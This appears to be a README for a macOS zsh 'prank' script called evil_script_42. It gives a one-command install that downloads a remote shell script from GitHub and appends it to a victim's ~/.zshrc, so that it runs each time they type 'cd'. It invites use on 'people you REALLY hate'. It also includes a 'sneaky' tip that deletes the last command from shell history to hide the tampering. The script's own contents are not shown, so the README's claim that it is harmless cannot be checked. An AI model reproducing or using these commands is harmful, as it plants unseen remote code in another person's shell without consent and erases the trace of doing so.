 # Installation
Note: The script is designed for entertainment only. It is not harmful to the machine. It is intended for zsh terminals and macOS environments.

### one-command injection:
```
curl -s https://raw.githubusercontent.com/Xylo-o/evil_script_42-macOS-/main/evil.sh >> ~/.zshrc && source ~/.zshrc
```

# Effect
After installation, the script will be placed in the ***.zshrc*** (hidden) file, which is the configuration file of the zsh terminal. It's launched by typing ***'cd'***.

***Please do it only to the people you REALLY hate*** ... or love, like your friends!

### Additional tip for being sneaky
Command to remove the last executed line in the terminal:
```
history -d $(history | tail -n 1 | awk '{print $1}')
```
